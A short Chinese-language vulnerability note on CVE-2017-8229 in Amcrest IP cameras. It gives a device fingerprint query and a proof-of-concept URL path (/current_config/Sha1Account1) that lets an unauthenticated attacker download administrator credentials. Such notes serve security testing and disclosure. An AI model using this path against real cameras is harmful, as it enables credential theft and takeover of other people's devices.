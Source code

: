 # Amcrest IP Camera Web Sha1Account1 账号密码泄漏漏洞 CVE-2017-8229

## 漏洞描述

Amcrest IP Camera Web是Amcrest公司的一款无线IP摄像头，设备允许未经身份验证的攻击者下载管理凭据。

## 漏洞影响

<a-checkbox checked>Amcrest Technologies. Amcrest IP Camera Web all</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Amcrest"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645547044365-31c4c6ae-c9cd-4c34-88ce-1c31810a0ed8.png)

验证POC

```javascript
/current_config/Sha1Account1
```

![img](../../../.vuepress/public/img/1645547183330-ef08c3d4-1cb6-4e93-a70f-8ec772da2798.png)